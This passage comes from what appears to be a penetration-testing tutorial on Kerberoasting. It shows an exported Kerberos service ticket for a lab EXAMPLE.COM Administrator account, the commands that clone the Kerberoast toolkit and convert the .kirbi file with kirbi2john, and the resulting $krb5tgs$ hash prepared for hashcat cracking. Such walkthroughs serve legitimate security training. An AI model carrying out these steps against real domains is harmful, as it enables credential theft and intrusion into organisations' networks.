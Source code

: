 ```
bsyj4dZI74mphNCweBzsoPapi3ixJPqH61Rdz/YR+PZ/50nQs9WHlF63sq0U195C
+2ymfOQieymSQfns+xYjrkkIipTWcToZbIqpOrXy8js9exscMj9eNWvY5u1PmiZh
LZwq0yeczSJptV+hajonS8SMD5fvzJ2jgdowgdegAwIBAKKBzwSBzH2ByTCBxqCB
wzCBwDCBvaAbMBmgAwIBF6ESBBAHE33X1bgB74sFxzOAsYcBoQ0bC0VYQU1QTEUu
Q09NohowGKADAgEBoREwDxsNQWRtaW5pc3RyYXRvcqMHAwUAQKEAAKURGA8yMDIy
MTIxNjIxNTgzNFqmERgPMjAyMjEyMTcwNjM1NDFapxEYDzIwMjIxMjIzMjAzNTQx
WqgNGwtFWEFNUExFLkNPTakiMCCgAwIBAqEZMBcbBWh0dHBzGw5UU1RXTFBUMTAw
MDAwMA==
====================

   * Saved to file     : 1-40a10000-Administrator@https~TSTWLPT1000000-EXAMPLE.COM.kirbi
```


### Crack Service Tickets

To crack the service ticket a number of tools can be used. In this example we'll use hashcat. First we need to convert
the ticket we retrieved in the `.kirbi` format to a format parsable by hashcat. The script **kirbi2john** is part of
[Tim Medin](https://twitter.com/TimMedin) [Kerberoast](https://github.com/nidem/kerberoast) toolkit is perfect for
this task. 

First clone the repo then run the script against the `.kirbi` file. 
```
msfuser@ubuntu:~/git$ git clone https://github.com/nidem/kerberoast.git
msfuser@ubuntu:~/git$ cd kerberoast
msfuser@ubuntu:~/git/kerberoast$ python3 kirbi2john.py ~/1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM.kirbi
$krb5tgs$23$*1-40a10000-Administrator@HTTP~testService-EXAMPLE.COM*$2b5cda0496cdd9cfb11a00a9b03a0d31$76975a9115860927140
3a1808746b35d0e99159553e3c81a9cd32a51e968a4b45ce3fcf08e5eac8d4551df10c9f1bd4572cc273d1bd154fc8fd1228d55cd39a90b64ec3117f
e0a1fb496d1be4042ccb2998d998fa3de8f50bcb04d3bf78e34be07d71310a3be829e24cb75c398847f960aefe9669534df26344beb6e7bbe628b7ac
fa957c4a67417546fc441b84aaee78a0e5256cc9dead287327ac7907af71e02b142027c9061515c72ef03c842d0f73754f9dffa434a26057df4c4434
71cd5bf76260469ea6f1c367a64ea02b01a2b9c2b83979911fc58fa8822c70877b72370078e3d7955fc2ade02acd2a803889a8c3a609f80f9beb45c0
981aba6bdbb208fa6ea2cc91814c8c4dd6e9287f4ef3b9e2b7febe07648c78ec25137e82bee0d99290a33fd3701953bd858fac15c6d1652f11cc75a6
e419cab7dec019e599eda3a76652475968bc2845fa6f02477efaecfd63e58fad817f1976adeda14b2c4c1508a84df1813e05368c3e07c9f656d5730d
848b86c59bf576f4c2505375b7d6934abf8a955b1a71d802026383cbd9005bf12f0664ffc25ebee8aef4b574dd93850d59fc16c5f9881e9b4f957c33
74724e4046c0fa4bc5ff16b9a960b4b6a2ede25bb18c617c2dbcfb3fd34a4cc3ee29fb0f6e6f43722ffc50ceddce55b2be1a53361d13c983980d3191
86c7dbd124a3c8f19560e88d0d858b0f5320738931bf2f32c1e893fbbadb92f7574128f6f36a0acab99023f79d857f15f0920a1a76b3a97e6282d4e6
c5ef30206444bc20da1a7d89d1007a97e75ffb9554cfeaf6757919a635dbdfcfd74d2eec8d5f83f109beb6e653a8c0e787ec039c7bb93d07a60e8bb4
b56d026e809a80e020875a3a382b367f28c0e41714bd5ef97da578956cba12ab1fbcd84a5313d2edc5f7c601c3c56860a347ab013f50e3f8e6167935
9db05e4014db38e21a814fe002ba14d17840aa053bbec3a6aadec31db50827168d24107486d373567c2969215c0decf639bc46b9968e43a79bc6f261
2544feb09908118615035f630e37b03cb04d9725d2085a28543575d91c361bf1b6a61837d6c34c8961df33d1b8b45963bf361d33e0ca2fa37b40e62b
6389ebb0ad4097036f4d6aa4598086313ea79d68f75301d5038783567c2fdcf25e2b459acdc867c64613fe84f3faf1fdb79fc6e05322b2175eec3b2e
84e3a8165f0af265d3ccd994712704516f0c78f76dd7c5c98f8fc8b9db1231f19c259bc7f078a86d4bc6cf06b8c4158dc41f48dd51b146d3fc63d2fd
f057e6644f838a944de0679ab3e8c6290d4d8004bd53570f61323eeb7c910c6546880a508172bf4ee2fa1c87748ec0e2e2f79e03e963affb593f1391
```